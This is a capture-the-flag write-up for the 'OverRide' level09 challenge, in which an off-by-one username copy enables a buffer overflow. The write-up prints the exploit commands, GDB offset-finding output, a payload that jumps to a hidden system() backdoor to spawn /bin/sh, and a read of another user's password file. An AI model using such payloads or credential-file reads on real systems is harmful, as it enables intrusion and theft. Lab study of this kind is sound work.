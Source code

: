 
When executing this program, we are prompted to enter a username and then a message

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: xavier
>: Welcome, xavier
>: Msg @Unix-Dude
>>: hola
>: Msg sent!
```

By observing the code, we can see a function called secret_backdoor that is not called. This function allows us to execute whatever we want using the system() function.

```c
long long secret_backdoor()
{
    char v0;  // [bp-0x88]

    fgets(&v0, 128, stdin);
    return system(&v0);
}
```

So, we can deduce that we will need to modify the execution flow by modifying the RIP register at a certain point.

We can see that the program uses a message struct which stores the username, the message, and the message size.

```c
struct	s_message
{
	char	message[140];
	char	username[40];
	int		len;
}   t_message;
```

We can also see that in the set_username function, during the loop which writes the user's name into the struct, instead of looping 40 times, we will loop 41 times due to the <= 40 condition.

```c
for (v2 = 0; v2 <= 40 && (&v1)[v2]; v2 += 1)
    {
        a0->username[v2] = (&v1)[v2];
    }
```

This will allow us to overflow the len attribute of our struct and write the first high bit of this latter.
This vulnerability will allow us to overflow in set_msg at the level of strncpy which will write to a0->len of the message that we will write using fgets into a0->message.

```c
fgets(&v1, 0x400, stdin);
strncpy(a0->message, &v1, a0->len);
```

This means that we know what our payload will look like.

```
(python -c 'print("a"*40 + "\xff" + "\n" + "a" * OFFSET + "secret_backdoor") + "\n" + "/bin/sh"'; cat) | ./level09
```


To find the offset, we use a pattern generator. https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
```
(gdb) run < <(python -c 'print("a"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag|6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4|Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
```

```c
6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
```
We can see that this string starts from 200 of the pattern.

offset = 200


Now let's find the address of secret_backdoor.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
secret_backdoor = 0x55555555488c

(python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09

```
level09@OverRide:~$ (python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
